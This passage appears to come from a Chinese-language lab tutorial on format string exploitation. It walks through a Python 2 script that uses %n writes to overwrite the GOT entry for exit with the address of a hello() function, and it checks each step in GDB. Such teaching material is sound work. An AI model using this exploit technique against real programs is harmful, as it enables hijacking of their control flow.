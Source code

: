 ```PYTHON
exploit += "%4$n"

print pad(exploit)
```

利用 printf("AAAA %x %x %x %x") 定位到 EXIT_PLT 将作为 printf 的第四个参数所以 %4$34011x %4$n

![got_four](../pictures/format_string/change_got/got_four.png)

利用 GDB 查看脚本的输入后 0x804a01c 地址处的值,修改成功

![got_low_change](../pictures/format_string/change_got/got_low_change.png)

在脚本上增加覆盖高字节部分,由于高字节部分的值为 0x0804,但是之前字符串的长度已经超过了这个长度,所以我们利用 0x10804 来截取其低四位得到

```PYTHON
#!/usr/bin/python2.7
import struct

HELLO = 0x80484eb
EXIT_PLT = 0x804a01c


def pad(s):
    return s + "X" * (512 - len(s))


exploit = ""
exploit += struct.pack("I", EXIT_PLT)
exploit += struct.pack("I", EXIT_PLT + 2)
exploit += "BBBBCCCC"
exploit += "%4$34011x"
exploit += "%4$n"
exploit += "%33562xx"
exploit += "%5$n"

print pad(exploit)
```

利用 GDB 查看脚本的输入后 0x804a01c 地址处的值,成功修改全四位

为 hello() 函数的地址

![got_high_change](../pictures/format_string/change_got/got_high_change.png)
